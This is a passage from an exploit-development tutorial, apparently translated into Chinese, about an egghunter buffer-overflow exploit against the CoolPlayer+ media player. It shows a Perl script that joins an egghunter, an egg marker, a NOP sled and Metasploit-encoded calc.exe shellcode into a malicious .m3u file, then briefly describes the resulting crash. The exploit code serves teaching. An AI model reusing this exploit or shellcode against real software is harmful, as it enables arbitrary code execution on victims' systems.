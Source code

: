 ```perl
$egghunter = $egghunter . "\x75\xE7";#jnz 0x5
$egghunter = $egghunter . "\xFF\xE7"; #jmp edi

my $egg = "\x50\x57\x4e\x44\x50\x57\x4e\x44"; #PWNDPWND
my $nops = "\x90" x 50;

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
"\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
"\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
"\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
"\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
"\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
"\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
"\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
"\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
"\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
"\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
"\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
"\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
"\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
"\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
"\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
"\x9a\xca\xc0";

my $sploit = $junk.$eip.$egghunter.$egg.$nops.$shell; # build sploit portion of buffer
my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
my $buffer = $sploit.$fill; # build final buffer

# write the exploit buffer to file
my $file = "coolplayer.m3u";
open(FILE, ">$file");
print FILE $buffer;
close(FILE);
print "Exploit file [" . $file . "] created\n";
print "Buffer size: " . length($buffer) . "\n";
```

另请注意，我添加了 $egg 并将它和 Egghunter 合并到缓冲区的 $sploit 部分中。在 CoolPlayer+ 中尝试生成的 .m3u 文件，您应该会得到

```
Access violation when writing to [XXXXXXXX] - use Shift+F7/F8/F9 to pass exception to program
```

让我们仔细看看发生了什么。以下相应内存 dump 的屏幕截图显示了发生此访问冲突的位置

